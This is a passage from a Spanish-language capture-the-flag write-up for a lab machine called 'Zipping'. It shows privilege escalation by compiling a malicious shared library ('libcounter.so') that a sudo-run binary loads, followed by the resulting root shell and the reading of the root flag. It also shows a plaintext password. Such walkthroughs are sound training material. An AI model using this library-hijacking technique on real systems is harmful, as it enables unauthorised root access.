

## Creating Evil Shared Library
La librería compartida entonces es:
`/home/rektsu/.config/libcounter.so`

Ahora solo falta explotarlo.
Creamos un `libcounter.c` en `/home/rektsu/.config/`


Ahora compilamos este archivo con `gcc`
```shell
rektsu@zipping:~/.config$ gcc -shared -fPIC -nostartfiles -o libcounter.so libcounter.c 
rektsu@zipping:~/.config$ ls -la
total 28
drwxrwxr-x 2 rektsu rektsu  4096 Aug  3 20:26 .
drwxr-x--x 7 rektsu rektsu  4096 Aug  7  2023 ..
-rw-rw-r-- 1 rektsu rektsu   116 Aug  3 20:26 libcounter.c
-rwxrwxr-x 1 rektsu rektsu 14272 Aug  3 20:26 libcounter.so
```

Y ahora solo falta ejecutar el binario como sudo y poner la contraseña, si todo sale bien se debería de cargar nuestra librería compartida maliciosa y se debería de ejecutar una `/bin/bash` con máximos privilegios.

```shell
rektsu@zipping:~/.config$ sudo stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu/.config# whoami
root
root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu/.config#
```

Y ya podríamos leer la flag de super usuario.
```shell
root@zipping:~# cd /root
root@zipping:~# ls -la
total 44
drwx------  6 root root 4096 Aug  3 20:00 .
drwxr-xr-x 19 root root 4096 Oct 17  2023 ..
lrwxrwxrwx  1 root root    9 Jan 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 28  2022 .bashrc
drwx------  3 root root 4096 Aug  7  2023 .cache
drwx------  3 root root 4096 Aug  7  2023 .launchpadlib
drwxr-xr-x  3 root root 4096 Aug  7  2023 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profile
drwx------  2 root root 4096 Aug  7  2023 .ssh
-rw-r--r--  1 root root   27 Aug  3 20:09 .stock.csv
-rw-r--r--  1 root root  165 Aug  7  2023 .wget-hsts
-rw-r-----  1 root root   33 Aug  3 20:00 root.txt
root@zipping:~# cat root.txt
65ea9aab4a320db....
root@zipping:~# 
```

Happy Hacking! 🚀